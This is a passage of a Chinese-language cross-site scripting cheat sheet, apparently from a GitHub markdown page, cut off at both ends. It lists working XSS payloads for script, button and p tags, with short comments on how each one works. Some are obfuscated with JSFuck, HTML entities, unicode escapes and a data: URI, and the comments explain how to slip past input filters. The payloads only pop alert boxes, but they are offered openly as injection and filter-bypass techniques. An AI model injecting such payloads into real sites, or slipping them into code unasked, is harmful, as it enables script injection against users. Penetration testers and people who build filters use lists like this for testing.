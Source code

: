      ```html
     <script>alert(1)</script>
     ```

   - jsfuck版本：

     ```html
     <script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
     ```

     [jsfuck](http://www.jsfuck.com/)

   - 各种编码版本：

     ```html
     <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script>

     <script>prompt(-[])</script>//不只是alert。prompt和confirm也可以弹窗 

     <script>alert(/3/)</script>//可以用"/"来代替单引号和双引号 

     <script>alert(String.fromCharCode(49))</script> //我们还可以用char

     <script>alert(/7/.source)</script> // ".source"不会影响alert(7)的执行

     <script>setTimeout('alert(1)',0)</script> //如果输出是在setTimeout里，我们依然可以直接执行alert(1)
     ```

3. button标签

   - event事件实现js调用：

     ```html
     <button/onclick=alert(1) >M</button>
     ```

   - html5的新姿势：

     需要交互的版本：

     ```html
     <form><button formaction=javascript&colon;alert(1)>M
     ```

     不需要交互的版本：

     ```html
     <button onfocus=alert(1) autofocus>
     ```

4. p标签

   - 如果发现变量输出在p标签中，只要能跳出`""`就足够了：
     ```html
     <p/onmouseover=javascript:alert(1); >M</p>
     ```

5. img标签
